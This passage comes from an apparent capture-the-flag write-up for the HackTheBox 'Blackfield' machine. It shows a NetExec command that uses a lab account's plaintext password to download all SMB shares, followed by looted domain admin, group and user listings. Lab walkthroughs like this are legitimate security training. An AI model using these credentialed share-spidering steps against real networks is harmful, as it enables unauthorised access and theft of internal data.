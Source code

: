 ### File inspection

instead of searching manually, lets download all the shares locally to inspect offline

```bash
nxc smb blackfield.htb  -u 'AUDIT2020' -p 'Thebestpass0!' -M spider_plus -o DOWNLOAD_FLAG=True
```

alright, first lets inspect the `commands_output` since it has fewer contents

`domain_admins.txt`

```bash
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator       Ipwn3dYourCompany     
The command completed successfully.
```

Very interesting, i dont remember seeing that on bloodhound! lets keep in that in mind and revisit it later

`domain_groups.txt`
```bash
Group Accounts for \\\\DC01

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
The command completed successfully.
```

`domain_users.txt`
```bash
User accounts for \\\\DC01

-------------------------------------------------------------------------------
Administrator            audit2020                BLACKFIELD103974         
BLACKFIELD106360         BLACKFIELD107197         BLACKFIELD112766         
.......    
BLACKFIELD998321         Guest                    Ipwn3dYouCompany
krbtgt                   lydericlefebvre          support                  
The command completed successfully.
```
